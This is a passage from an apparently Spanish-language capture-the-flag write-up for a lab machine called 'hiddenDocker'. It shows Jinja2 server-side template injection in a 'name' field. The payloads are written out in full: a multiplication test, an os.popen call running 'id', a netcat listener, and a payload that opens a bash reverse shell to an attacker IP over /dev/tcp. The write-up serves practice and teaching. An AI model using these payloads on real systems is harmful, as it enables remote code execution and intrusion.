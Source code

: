 Veamos si reproduce la siguiente multiplicación:

{% raw %}
```bash
{{ 10*50 }}
```
{% endraw %}

Recuerda probarla en el campo **name**:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura10.png">
</p>

Funcionó.

Entonces, vamos a probar si ejecuta el comando **id** con el siguiente payload:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

Probémoslo:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura11.png">
</p>

Excelente, si lo está ejecutando.

Directamente, utilicemos una **Reverse Shell** de **Bash**.

Inicia un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ahora, ejecutamos la **Reverse Shell** con el siguiente payload:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'").read() }}
```
{% endraw %}
